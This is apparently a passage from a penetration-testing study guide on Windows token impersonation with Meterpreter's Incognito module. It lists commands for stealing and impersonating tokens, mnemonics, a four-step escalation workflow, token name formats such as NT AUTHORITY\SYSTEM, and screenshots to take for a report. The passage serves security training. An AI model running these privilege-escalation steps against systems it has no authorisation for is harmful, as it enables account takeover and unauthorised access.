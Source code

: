 #### **Token Manipulation:**
```bash
impersonate_token DOMAIN\\username         # Impersonate specific token
steal_token [PID]                         # Steal token from process
rev2self                                  # Return to original token
```

#### **Verification Commands:**
```bash
getuid                                    # Check current user context
whoami /priv                             # Show current privileges
whoami /groups                           # Show group memberships
```

### **Memory Aids and Mnemonics:**

#### **Easy Ways to Remember:**
- **Incognito** = **In**visible **Cog**nition = Hidden identity manipulation
- **list_tokens -u** = **L**ist **T**okens by **U**sername
- **impersonate_token** = **I**mpersonate **T**oken (become someone else)
- **rev2self** = **Rev**ert **2** **Self** (go back to original identity)

#### **Command Pattern Recognition:**
```bash
# Remember: LOAD → LIST → IMPERSONATE → VERIFY
load incognito               # Step 1: Load capabilities
list_tokens -u             # Step 2: Find targets
impersonate_token USER      # Step 3: Assume identity
getuid                      # Step 4: Verify success
```

### **Syntax Patterns:**
```bash
# Windows token format patterns
DOMAIN\\username            # Standard domain account
.\\username                # Local account
NT AUTHORITY\\SYSTEM       # System account
WORKSTATION\\Administrator # Computer-specific admin
```

---

## 📝 Professional Documentation and Reporting

### **Evidence Collection Requirements:**

#### **Critical Screenshots Needed:**
1. **Initial privilege check** - `getuid` showing limited service account
2. **Token enumeration** - `list_tokens -u` output showing available tokens
3. **Impersonation success** - "Successfully impersonated" confirmation message
4. **Privilege verification** - `getuid` showing elevated user context
5. **Objective proof** - Successful access to restricted files or resources
